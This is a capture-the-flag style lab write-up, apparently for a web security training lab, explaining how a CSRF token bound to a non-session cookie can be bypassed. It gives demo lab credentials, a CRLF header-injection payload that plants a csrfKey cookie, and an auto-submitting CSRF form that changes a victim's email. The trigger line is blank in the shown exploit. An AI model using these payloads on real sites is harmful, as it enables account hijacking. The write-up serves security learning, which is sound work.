

---

# 🧪 Lab: CSRF Where Token Is Tied to Non-Session Cookie

## 🎯 Objective

Perform a CSRF attack by exploiting improper linkage between CSRF token and a non-session cookie.

---

## 🛠️ Approach (Manual — No Burp Suite Professional)

---

## 🔍 Step 1: Analyze Token Behavior

* Email change request includes:

  * `csrf` parameter
  * `csrfKey` cookie

👉 Observations:

* Changing **session cookie** → logs user out ✅
* Changing **csrfKey cookie** → only invalidates token ❌

➡️ Indicates:
**csrfKey is not tied to the session**

---

## 🧪 Step 2: Cross-Account Testing

1. Log in as:

   ```
   wiener:peter
   ```

   → Capture:

   * `csrf` token
   * `csrfKey` cookie

2. Log in as:

   ```
   carlos:montoya
   ```

3. Replace in request:

   * victim’s `csrf` → attacker’s token
   * victim’s `csrfKey` → attacker’s cookie

✅ Request accepted
✅ Email changed

---

## 💡 Vulnerability Confirmed

* CSRF token depends on `csrfKey` cookie ❌
* `csrfKey` is NOT tied to user session ❌

👉 Attacker can reuse both values

---

## 🔥 Step 3: Find Cookie Injection Point

While testing:

* Search function reflects input into headers

Discovered payload:

```
/?search=test%0d%0aSet-Cookie: csrfKey=ATTACKER_KEY; SameSite=None
```

👉 This injects a cookie into victim’s browser

---

## 💣 Step 4: Craft Final Exploit

Your manual payload:

```html
<html>
  <body>
    <form action="https://0a1f008d03b90bd3825bbf2b009300fb.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="carlos@ginandjuice.shop">
      <input type="hidden" name="csrf" value="1VfoDe08CmGKdQtb82xRxksU8zYgZkJR">
    </form>

    <!-- Inject csrfKey cookie and trigger request -->
    

  </body>
</html>
```

---

## 🚀 Step 5: Exploit Flow

1. Victim loads malicious page
2. `` request is triggered
3. Server response injects:

   ```
   Set-Cookie: csrfKey=ATTACKER_KEY
   ```
4. Victim browser stores attacker’s cookie
5. Form auto-submits:

   * Uses attacker’s `csrf` token
   * Uses injected `csrfKey`

✅ Server accepts request
✅ Email changed

---

## ✅ Result

CSRF attack successfully performed
✔️ Lab solved

---

# 🧠 Why This Works

| Issue                | Explanation          |
| -------------------- | -------------------- |
| Token tied to cookie | Not tied to session  |
| Cookie injectable    | Via CRLF injection   |
| No validation link   | Between user + token |
| Result               | Full CSRF bypass     |

---

# 🏁 Final Professional Writeup

> The application implements CSRF protection using a token and a `csrfKey` cookie, but fails to bind these to the user session. By injecting a malicious `csrfKey` cookie into the victim’s browser using a CRLF injection vulnerability in the search functionality, and combining it with a valid CSRF token from the attacker’s account, a forged request was accepted. This allowed unauthorized modification of the victim’s email address.

---
*
